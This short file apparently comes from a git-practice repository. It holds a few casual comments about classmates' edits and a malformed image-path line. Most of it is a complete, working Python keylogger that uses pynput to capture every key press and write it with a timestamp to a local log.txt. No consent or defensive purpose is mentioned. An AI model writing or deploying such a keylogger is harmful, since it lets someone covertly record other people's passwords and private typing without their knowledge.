 # t2l-git

## Destiny presented today! YEY!
## Antonio made an edit right here

from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "log.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()


# I want to add a branch of some kind